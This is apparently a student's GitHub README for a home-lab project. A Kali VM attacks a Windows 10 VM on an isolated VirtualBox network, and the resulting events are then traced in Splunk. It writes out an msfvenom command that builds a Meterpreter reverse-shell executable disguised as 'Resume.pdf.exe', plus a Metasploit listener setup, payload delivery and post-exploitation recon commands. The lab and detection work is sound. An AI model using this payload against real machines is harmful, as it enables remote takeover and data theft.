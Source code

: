 # Simulating Cyber Attacks and Log Analysis with VirtualBox and Splunk

## Objective
The project aimed to create a simulated network attack environment using VirtualBox to connect a Windows 10 VM (victim) and a Kali Linux VM (attacker). The primary goal was to execute an attack and analyze the resulting logs with Splunk to understand attack patterns and enhance network security skills.

### Skills Learned

- **Virtual Machine Management:** Setting up and managing virtual machines using Oracle VM VirtualBox.
- **Penetration Testing:** Using Metasploit for vulnerability exploitation and payload delivery.
- **Malware Creation:** Ability to create and deploy custom malware using 'msfvenom' with a reverse TCP payload.
- **SIEM Log Analysis:** Using Splunk for log ingestion, querying, and analysis to detect and investigate suspicious activities.
- **Command-Line Proficiency:** Executing various command-line tools and utilities on both Windows and Linux platforms.
- **Cybersecurity Concepts:** Understanding of attack vectors, defense mechanisms, and network security best practices.

### Tools Used

- Virtualization Software: Oracle VM VirtualBox
- Operating Systems: Windows 10 (Victim) and Kali Linux (Attacker)
- Security Tools: Metasploit Framework, Nmap, Splunk
- Networking: Internal Network Configuration in VirtualBox

## Steps

1. **Network Configuration**:
     * Set both VMs to use an internal network for isolated communication.
     * Verify the connection between the virtual machines using the ping command.
  
2. **Scanning for Open Ports**:
   * On Kali, ran 'Nmap -A 192.168.20.10 -Pn'. This command performs an aggressive scan (-A) on the target IP without pinging the host first (-Pn). It detects open ports, services, OS details, and potential vulnerabilities.
   * After running the command, identified that port 3389 (RDP) is open.

   ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/02ae843a11ce0da73895b2bf4bae0e7cce666d24/Project%20Images/Screenshot%202024-06-28%20131152.png)

3. **Creating Malware**:
     * Used msfvenom to create a malware payload with command 'msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe'.
     * This command generates a Windows executable (-f exe) with a reverse TCP payload that causes the Windows machine to connect back to the attacker's IP on port 4444, and outputs it as 'Resume.pdf.exe'.

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/dc126819e54bc31e9c6ad753d6717cc188d76ed8/Project%20Images/Screenshot%202024-06-28%20135945.png)


4. **Setting Up Metasploit Handler**:
     * Opened 'msfconsole' and configured a handler to listen for incoming connections. Achieved this by using command 'use/exploit/multi/handler' and set the payoad and LHOST/LPORT to match the malware configuration.
     * By setting up a metasploit handler, you set up a listener that waits for the victim's machine to connect back to the attacker's machine. This connection is established when the victim executes the malware, allowing the attacker to gain control over the victim's machine through a Meterpreter session.
   
    ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/a14a72e9e432c9ff5b108cdcbaabd5fbb2aca154/Project%20Images/Screenshot%202024-06-28%20211123.png)
    ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/a14a72e9e432c9ff5b108cdcbaabd5fbb2aca154/Project%20Images/Screenshot%202024-06-28%20212126.png)

5. **Delivering Malware**:
     * Set up a simple HTTP server on Kali for file delivery using 'python3 -m http.server 9999'.
     * On Windows VM, disabled antivirus, navigated to the Kali IP on port 9999, downloaded, and executed the malware.

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/3ab03dea89bf80ece7dd3bf85ad93ff1da2bf86a/Project%20Images/Screenshot%202024-06-28%20214054.png)
     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/3ab03dea89bf80ece7dd3bf85ad93ff1da2bf86a/Project%20Images/WindowsVM%20(current)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox%206_23_2024%205_47_05%20PM.png)

6. **Verifying The Established Connection**:
     * To verify that the malware executed correctly and that there's an established connection between the client and attacker we can use the command 'netstat -anob'. This command will show you a list of all active network connections. Furthermore, we can see an established connection from the client to the attacker through the "Resume.pdf.exe" file.
     * We can also verify through Task Manager. We see that "Resume.pdf.exe" is running through PID:8028. 

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/fef68f7ed68eb29b9525a952c1d0836e00828928/Project%20Images/WindowsVM%20(current)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox%206_23_2024%209_56_44%20PM.png)
     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/fef68f7ed68eb29b9525a952c1d0836e00828928/Project%20Images/WindowsVM%20(current)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox%206_23_2024%209_58_09%20PM.png)

7. **Exploiting the Victim Machine**:
     * On Kali, used Meterpreter’s 'shell' command to gain a shell on the Windows VM.
     * Ran 'net user', 'net localgroup', and 'ipconfig' to gather information. Respectively, the commands will list all user accounts on the Windows VM, list all local groups and their members, and display network configuration details.

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/f053a13068332649f02c6543458fd8c8083022d9/Project%20Images/kali-linux-2024.2-virtualbox-amd64%20(Baseline)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox%206_23_2024%209_59_08%20PM.png)
     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/f053a13068332649f02c6543458fd8c8083022d9/Project%20Images/kali-linux-2024.2-virtualbox-amd64%20(Baseline)%20%5BRunning%5D%20-%20Oracle%20VM%20VirtualBox%206_23_2024%209_59_50%20PM.png)     

8. **Log Analysis**:
     * Within Splunk Enterprise, querying 'index=endpoint' in the "Search & Reporting" section will show all the data ingested into the environment. Additionally, querying 'index=endpoint 192.168.20.11' showed that the attacker targeted one destination port which is port 3389 (RDP)
     * Querying 'index=endpoint Resume.pdf.exe' will show various event codes, the first event code shows "Resume.pdf.exe" spawning cmd and executing 'net user', 'net localgroup', and 'ipconfig' commands.

     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/6c9575c4efdf422e237e928ac97a2c9de5820ffc/Project%20Images/Screenshot%202024-06-29%20201028.png)
     ![image alt](https://github.com/HemantVarunParas/Cyber-Attacks-and-Log-Analysis-with-VirtualBox-and-Splunk/blob/6c9575c4efdf422e237e928ac97a2c9de5820ffc/Project%20Images/Screenshot%202024-06-29%20201210.png)

## Conclusion
Through this project, I gained hands-on experience in setting up a virtualized network environment and conducting a simulated cyber attack. I developed skills in network configuration, penetration testing with Metasploit, and log analysis with Splunk. This project enhanced my understanding of network security, attack patterns, and defensive strategies, providing valuable insights into the practical aspects of cybersecurity.
